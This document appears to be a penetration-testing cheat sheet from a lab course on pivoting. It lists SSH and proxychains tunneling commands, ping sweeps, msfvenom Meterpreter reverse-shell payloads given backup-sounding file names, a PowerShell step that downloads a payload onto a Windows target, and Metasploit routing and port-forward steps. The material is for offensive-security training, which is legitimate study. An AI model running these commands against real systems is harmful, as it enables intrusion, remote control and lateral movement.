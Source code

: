 
# Dynamic Port Forwarding with SSH and SOCKS5 Tunneling 
---
Local port forward with ssh:
```shell
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Confirm port forward with netstat:
```shell
netstat -antp | grep 1234
```

Enable dynamic port forwarding with ssh;
```shell
ssh -D 9050 ubuntu@10.129.202.64
```

Nmap with proxychains:
```shell
proxychains nmap -v -sn 172.16.5.1-200
```

Metasploit with proxychains:
```shell
proxychains msfconsole
```

RDP with proxychains:
```shell
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

# Remote/Reverse Port Forwarding with SSH
---
Creating windows payload with msfvenom:
```shell
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InteralIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

Setup multi/handler:
```shell
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
```

Transfer payload to pivot host:
```shell
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

Download payload from windows target:
```powershell
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

Remote port-forward using ssh -R:
```shell
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

# Meterpreter Tunneling & Port Forwarding
---
Creating linux payload with msfvenom:
```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.18 -f elf -o backupjob LPORT=8080
```

Ping sweep on linux host:
```shell
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```

Ping sweep on windows host (cmd):
```cmd
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

Ping sweep on windows host (ps):
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```

Setup metasploit socks proxy:
```shell
use auxiliary/server/socks_proxy
set version 4a
```

Confirm proxy is running:
```shell
jobs
```

Create route with metasploit's AutoRoute:
```shell
use post/multi/manage/autoroute
```

Create route from meterpreter session:
```shell
run autoroute -s 172.16.5.0/23
```

List routes from meterpreter session:
```shell
run autoroute -p
```

Create TCP relay with meterpreter portfwd:
```shell
portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

